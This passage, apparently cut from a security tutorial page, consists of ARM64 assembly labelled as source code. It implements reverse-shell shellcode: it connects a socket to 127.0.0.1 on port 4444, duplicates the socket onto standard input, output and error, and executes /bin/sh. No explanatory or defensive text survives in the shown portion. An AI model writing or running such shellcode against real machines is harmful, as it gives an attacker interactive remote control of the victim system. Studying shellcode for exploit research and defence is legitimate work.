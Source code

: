 ```armasm
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
movk x1, #0x007F, lsl #32
movk x1, #0x0100, lsl #48
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #98
svc  #0x1337

lsr  x2, x2, #2

call_dup:
// dup(s, 2) -> dup(s, 1) -> dup(s, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```
{% hint style="success" %}